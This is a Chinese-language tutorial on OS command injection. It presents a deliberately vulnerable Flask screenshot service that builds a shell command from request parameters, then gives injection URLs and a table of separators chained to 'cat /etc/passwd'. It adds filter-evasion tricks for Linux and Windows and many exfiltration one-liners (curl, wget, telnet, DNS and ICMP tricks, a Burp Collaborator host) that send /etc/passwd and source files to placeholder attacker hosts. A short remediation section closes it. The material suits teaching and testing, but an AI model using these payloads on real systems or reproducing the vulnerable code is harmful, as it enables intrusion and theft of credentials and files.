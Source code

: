 ## 0x01 命令执行漏洞原理

### 1.1 简介

​	Web应用程序在实现某些高级功能时可能需要调用外部程序来实现，如果引入的外部程序本身存在安全隐患或对传入的参数进行拼接操作，可能会导致程序出现安全问题。

## 0x02 命令执行漏洞利用

### 2.1 网页截图

#### 2.1.1 漏洞代码

```
# -*- coding: utf-8 -*-

import subprocess
from flask import Flask, request, send_file
app = Flask(__name__)

@app.route("/", methods=['GET','POST'])
def index():
    url = request.args.get('url')
    argstr = request.args.get('argstr')
    cmdstr = "wkhtmltoimage.exe {} {} image.png".format(argstr, url)
    rsp = subprocess.Popen(cmdstr, shell=True)
    rsp.wait()
    return send_file('image.png', mimetype='image/gif')
    
if __name__ == '__main__':

    app.run(debug = True)
```

![3](.\images\3.png)

#### 2.1.2 漏洞利用

​	如下图所示，通过命令连接符连接多个命令，成功写入123.txt。

```
http://127.0.0.1:5000/?argstr=||echo%20123%20%3E%20c:\123.txt||&url=
http://127.0.0.1:5000/?argstr=&url=||echo%20123%20%3E%20c:\123.txt
```

![4](.\images\4.png)

### 2.2 Bypass

#### 2.2.1 命令拼接

| 连接符     | 示例                                                         |
| ---------- | ------------------------------------------------------------ |
| \|         | ping www.xx.com -c 1\|cat /etc/passwd;                       |
| \|\|       | ping www.xx.com -c 1\|\|cat /etc/passwd;                     |
| &          | ping www.xx.com -c 1&cat /etc/passwd;                        |
| &&         | ping www.xx.com -c 1&&cat /etc/passwd;                       |
| ;          | ping www.xx.com -c 1;cat /etc/passwd;                        |
| $(sleep 5) | ping www.xx.com -c $(sleep 5);                               |
| %0d%0a     | ping www.xx.com -c 1%0d%0acat /etc/passwd;                   |
| ../        | cmd.exe /c "ping 127.0.0.1/../../../../../../../../../../windows/system32/ipconfig.exe" |

#### 2.2.2 命令混淆

- Linux

```
uname${IFS}-a
uname$IFS$9-a
uname%09-a

a=l;b=s;$a$b -la
ca\t /etc/passwd

echo 'ls /'|base64
echo bHMgLwo=|base64 -d
```

- Windows

```
(who"a"mi)
who"a"^mi

set a=w
set b=hoami
%a%%b%
```

#### 2.2.3 命令回传

- windows

```
telnet xx.xx.xx.xx:xxxx < c:\win.ini
```

```
net use h: \\xxx.xxx.xxx.xxx\web /user:administrator 123456 && copy index.php h:\index.php
```

- linux

```
curl -X POST -F xx=@index.php http://s4xv9zxsbg6xb13gwx0a68zai1orcg.burpcollaborator.net
cat /etc/passwd | curl –F ":data=@-" http://xx.xx.xx.xxx:xxxx/test.txt
curl –T /etc/passwd ftp://xxx.xxx.xxx.xxx –-user {username}:{password}
```

```
wget --header="evil:`cat /etc/passwd | xargs echo –n`" http://xxx.xxx.xxx:xxxx
wget --post-data exfil=`cat /etc/passwd`&b=1 http://xxx.xxx.xxx.xxx:xxxx
wget --post-file index.php http://xxx.xxx.xxx.xxx:xxxx
```

```
cat /etc/passwd | while read exfil; do host $exfil.contextis.com 192.168.107.135; done
```

```
ping `cat /etc/passwd|wc -c`.baidu.com	# 计算passwd内容字节长度
ping `cat /etc/passwd|base64|cut -c 1-20`.baidu.com	# 截取字符串
```

```
cat /etc/passwd | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done	# ICMP回显
```

```
$(sleep $(cat index.php | wc -c))	# 计算index.php内容字符长度
$(sleep $(cat index.php | cut -c 1 | tr a 5))	# 取index.php文件中的第一个字符,如果是'a',则转换为5
```

```
for /F %x in ('whoami') do start s4xv9zxsbg6xb13gwx0a68zai1orcg.burpcollaborator.net/[%x].jpg
```

## 0x03 命令执行漏洞修复

### 3.1 白名单进行过滤

​	可通过白名单限制字符类型，仅允许字符、数字、下划线，或过滤转义相关字符。

### 3.2 避免拼接操作系统命令

​	避免通过"cmd"、“bash”、“sh”等命令创建shell后拼接外部数据来执行操作系统命令。

```
func checkIllegal(cmdName string) bool {
	if strings.Contains(cmdName, "&") || strings.Contains(cmdName, "|") || strings.Contains(cmdName, ";") ||
		strings.Contains(cmdName, "$") || strings.Contains(cmdName, "'") || strings.Contains(cmdName, "`") ||
		strings.Contains(cmdName, "(") || strings.Contains(cmdName, ")") || strings.Contains(cmdName, "\"") {
		return true
	}
	return false
}
```



